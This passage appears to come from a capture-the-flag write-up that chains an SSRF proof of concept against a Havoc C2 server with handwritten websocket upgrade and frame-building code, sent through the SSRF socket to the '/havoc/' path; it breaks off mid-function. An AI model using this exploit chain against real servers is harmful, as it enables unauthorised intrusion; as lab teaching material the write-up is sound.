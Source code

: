 I’ll make a copy of the SSRF POC and remove the last three lines where it sends a request to `/vulnerable` on the given host:

```

request_data = b"GET /vulnerable HTTP/1.1\r\nHost: www.example.com\r\nConnection: close\r\n\r\n"
write_socket(socket_id, request_data)
print(read_socket(socket_id).decode())

```

#### Initiate Websocket

ChatGPT is actually pretty good at giving me what I need here:

![image-20250124150846210](/img/image-20250124150846210.png)

My function looks like:

```

def create_websocket_init_req(host, port, path):
    websocket_key = base64.b64encode(b"randombytes12345").decode("utf-8")
    request = (
        f"GET {path} HTTP/1.1\r\n"
        f"Host: {host}:{port}\r\n"
        f"Upgrade: websocket\r\n"
        f"Connection: Upgrade\r\n"
        f"Sec-WebSocket-Key: {websocket_key}\r\n"
        f"Sec-WebSocket-Version: 13\r\n"
        f"\r\n"
    ).encode()
    return request

```

And I’ll use this to initiate the websocket at the end of the exploit:

```

init_ws_request = create_websocket_init_req(hostname, args.port, '/havoc/')
write_socket(socket_id, init_ws_request)

```

#### Generate Frame

Now I need to send messages or frames into the socket. ChatGPT is really nice here, helping me to generate this function:

```

def create_websocket_frame(message):
    payload = message.encode("utf-8")
    payload_length = len(payload)
    first_byte = 0b10000001  # Binary: FIN = 1, Opcode = 1

    if payload_length <= 125:
        second_byte = 0b10000000 | payload_length
        frame = struct.pack("!BB", first_byte, second_byte)
    elif payload_length <= 65535:
        second_byte = 0b10000000 | 126
        frame = struct.pack("!BBH", first_byte, second_byte, payload_length)
    else:
        second_byte = 0b10000000 | 127
        frame = struct.pack("!BBQ", first_byte, second_byte, payload_length)

    masking_key = random.randbytes(4)
```